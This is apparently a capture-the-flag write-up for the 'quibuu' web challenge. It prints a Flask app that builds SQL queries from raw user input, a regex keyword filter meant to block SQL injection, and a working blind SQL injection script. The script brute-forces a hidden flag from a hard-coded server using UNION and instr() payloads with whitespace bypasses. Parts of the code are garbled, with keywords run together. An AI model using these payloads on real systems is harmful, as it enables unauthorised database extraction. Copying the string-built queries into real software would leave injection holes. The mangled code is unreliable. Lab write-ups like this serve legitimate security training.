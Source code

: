 # quibuu

Source: ISITDTU CTF 2023
Technique: Blind SQL Injection
Fields: Web

- app.py
    
    ```python
    from flask import Flask, render_template, request
    import random
    import re
    import urllib.parse
    import sqlite3
    #-----------------------------------------------------------------------------------
    app = Flask(__name__)
    
    # waf prevent potential dangerous word that can be in a sqli payload
    def waf_cuc_chill(ans):
    # idk, I thought too much of a good thingans = urllib.parse.quote(ans)
        pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
        if pattern.search(ans):
            returnTruereturnFalse@app.route("/", methods=["GET"])
    
    #-------------------------------------------------------------------------------     
    def index():
        ran = random.randint(1, 11)
        id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")
    
        ifnot (idand str(id).isdigit()and int(id) >= 1and int(id) <= 1301):
            id = 1
    		#connect db
        db = sqlite3.connect("hehe.db")
        cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
        img = cursor.fetchone()[0]
    
        if waf_cuc_chill(ans):
            return render_template("hack.html")
    
        cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
        result = cursor.fetchall()
    
        check = 0
        if result != []:
            check = 1
        elif result == []and ans != "" :
            check = 2
    
        return render_template("index.html", id=id, img=img, ans=ans, check=check)
    #-------------------------------------------------------------------------------
    if __name__ == "__main__":
        app.run()
    ```
    

The database gives many ID and after searching a little bit, I found the flag in ID 1337.

![https://hackmd.io/_uploads/S1MvgpZN6.png](https://hackmd.io/_uploads/S1MvgpZN6.png)

And we can inject into the id but also need to bypass the function

waf_cuc_chill()

**Idea:**

> Inject id and create a new table name F that concat with table QuiBuu and choose the id 1337 to get the flag.This need to brute the flag in url (Blind SQL Injection) to get the real flag in the column URL. In this challenge i use instr ( Link). Note: I didn’t see the author only filter substring and subsrt but left the substr until the author talk that to me after this CTF end lul.
> 
- exploit script
    
    ```python
    import requests
    import string
    
    # payload = "'OR SELECT * FROM QuiBuu WHERE ID = 1 UNION SELECT 1,2,F.`3` FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F/*".replace(" ","%0c")
    # payload = "abc'OR SELECT GROUP_CONCAT(F.`3`) FROM (SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F".replace(" ","%0c")
    # payload = "a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\"ISITDTU\"))/*".replace(" ","%0c")
    flag = ""
    url = "http://20.198.223.134:1301/?id=1&ans="
    
    whileTrue:
      for c in string.printable: #tat ca ki tu co the in dc: chu, so, ki tu db, dau cach, control characters(\t\n\r,...)
        if c not in ['*','+','.','?','|', '#', '&', '$']: #loai bo cac ki tu nhay cam khi dua vao url
            payload = ("a' OR (SELECT instr((SELECT GROUP_CONCAT(F.`3`) FROM ( SELECT 1,2,3 UNION SELECT * FROM QuiBuu WHERE id=1337)F),\""+flag+c+"\"))/*").replace(" ","%0c")
            #  thực hiện yêu cầu GET tới máy chủ mục tiêu, gắn payload SQL Injection vào tham số ans của URL.
            r = requests.get(url + payload, stream=True)
     
            if 'Haha QuiBuu!'in r.text:
                print(f" [+] Brute flag successfully : {flag+c}")
                flag += c
    ```